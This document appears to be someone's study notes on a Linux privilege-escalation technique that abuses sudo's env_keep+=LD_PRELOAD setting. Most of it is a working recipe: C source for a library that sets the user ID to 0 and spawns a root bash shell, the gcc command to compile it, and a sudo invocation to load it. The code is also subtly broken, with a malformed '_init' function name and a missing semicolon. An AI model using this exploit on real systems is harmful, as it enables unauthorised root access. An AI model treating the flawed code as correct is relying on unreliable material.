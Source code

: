 # Identify

```php
sudo -l
```

`env_reset, env_keep+=LD_PRELOAD`

**Requirement**

- LD_PRELOAD active
- Able to run a program as root from the `sudo -l` command

**What is it?**

A feature of the LD, or Dynamic Linker. It pre-loads a library befofe anything else is loaded.

- Allows an attacker to preload their own library before anything else.
# Exploit

```php
nano shell.c
```

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash")	
}
```

- Sets user to root id `0`

**Compile**

```php
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

- Position independent code, regardless of where the shell addressing is, the script will function  `-fPIC`

**Use script**

```php
sudo LD_PRELOAD=/home/<USER>/shell.so <ROOT_PROGRAM>
```

- For the root program you need to choose something that you can run with root from the `sudo -l` command we did earlier.

Example 

```php
sudo LD_PRELOAD=/home/john/shell.so apache2
```

